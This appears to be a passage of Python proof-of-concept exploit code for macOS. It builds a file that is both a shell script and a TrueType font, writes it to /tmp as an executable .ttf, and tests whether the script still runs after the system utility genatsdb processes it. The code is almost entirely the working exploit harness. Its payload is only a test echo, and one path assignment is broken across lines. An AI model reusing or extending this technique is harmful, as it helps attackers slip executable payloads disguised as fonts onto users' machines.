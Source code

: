 ```python
    font_data += struct.pack('>I', target_offset + len(font_data) + 16)  # offset
    font_data += struct.pack('>I', 54)  # length

    head_table = struct.pack('>I', 0x5F0F3CF5)  # magic number (required)
    head_table += b'\x00' * 50  # rest of head table

    font_data += head_table

    polyglot = script_part.encode('utf-8', errors='replace') + font_data

    return polyglot

def phase_5():

    genatsdb_path = 
    "/System/Library/Frameworks/ApplicationServices.framework/Versions/A/Frameworks/ATS.framework/Versions/A/Support/genatsdb"

    if not os.path.exists(genatsdb_path):
        print(f"genatsdb not found at: {genatsdb_path}")
        return False

    payload = 'echo "exploit works"'

    print("[*] creating polyglot exploit")
    try:
        polyglot = polyglot_exploit(payload)
        temp_file = "/tmp/final_exploit.ttf"

        with open(temp_file, "wb") as f:
            f.write(polyglot)
        os.chmod(temp_file, 0o755)

        print(f"    polyglot size: {len(polyglot)} bytes")
        print(f"    script portion: 100 bytes")
        print(f"    TTF structure: {len(polyglot) - 100} bytes")

        print("[*] testing script execution")
        result = subprocess.run([temp_file], capture_output=True, timeout=10)
        stdout = result.stdout.decode('utf-8', errors='replace')

        script_works = result.returncode == 0
        print(f"    script execution: {'PASS' if script_works else 'FAIL'}")
        if stdout.strip():
            print(f"    output: {stdout.strip()}")

        print("[*] testing genatsdb processing")
        result = subprocess.run([genatsdb_path, temp_file], capture_output=True, timeout=10)

        genatsdb_works = result.returncode == 0
        print(f"    genatsdb processing: {'PASS' if genatsdb_works else 'FAIL'}")

        print("[*] testing post-processing execution")
        result = subprocess.run([temp_file], capture_output=True, timeout=10)
        stdout = result.stdout.decode('utf-8', errors='replace')

        post_works = result.returncode == 0
        print(f"    post-processing execution: {'PASS' if post_works else 'FAIL'}")
        if stdout.strip():
            print(f"    Output: {stdout.strip()}")

        exploit_successful = script_works and genatsdb_works and post_works

```